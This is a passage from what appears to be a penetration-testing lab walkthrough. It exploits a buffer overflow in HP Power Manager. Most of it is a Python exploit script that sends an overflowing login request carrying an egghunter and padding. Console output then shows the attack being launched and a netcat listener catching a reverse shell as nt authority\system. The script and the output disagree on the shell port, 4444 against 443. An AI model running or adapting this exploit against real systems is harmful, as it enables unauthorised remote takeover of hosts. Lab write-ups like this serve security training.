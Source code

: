 ```python
"\x6f\x4b\x65\x41\x41")

EH ='\x33\xD2\x90\x90\x90\x42\x52\x6a'
EH +='\x02\x58\xcd\x2e\x3c\x05\x5a\x74'
EH +='\xf4\xb8\x6e\x30\x30\x62\x8b\xfa'
EH +='\xaf\x75\xea\xaf\x75\xe7\xff\xe7'

evil =  "POST http://%s/goform/formLogin HTTP/1.1\r\n"
evil += "Host: %s\r\n"
evil += "User-Agent: %s\r\n"
evil += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
evil += "Accept-Language: en-us,en;q=0.5\r\n"
evil += "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\n"
evil += "Keep-Alive: 300\r\n"
evil += "Proxy-Connection: keep-alive\r\n"
evil += "Referer: http://%s/index.asp\r\n"
evil += "Content-Type: application/x-www-form-urlencoded\r\n"
evil += "Content-Length: 678\r\n\r\n"
evil += "HtmlOnly=true&Password=admin&loginButton=Submit+Login&Login=admin"
evil += "\x41"*256 + RET + "\x90"*32 + EH + "\x42"*287 + "\x0d\x0a"
evil = evil % (HOST,HOST,SHELL,HOST)

s = socket(AF_INET, SOCK_STREAM)
s.connect((HOST, PORT))
print '[+] Sending evil buffer...'
s.send(evil)
print s.recv(1024)
print "[+] Done!"
print "[*] Check your shell at %s:4444 , can take up to 1 min to spawn your shell" % HOST
s.close()
```

Now we can set up a netcat listener on port 443 and then launch the python exploit against the target.
```bash
root@kali:~# python exploit.py 192.168.120.91
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK

[+] Done!
[*] Check your shell at 192.168.120.91:4444 , can take up to 1 min to spawn your shell
root@kali:~#
```

After a few seconds of waiting, we should get our reverse shell.
```bash
root@kali:~# nc -lvp 443
listening on [any] 443 ...
192.168.120.91: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.91] 49170
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
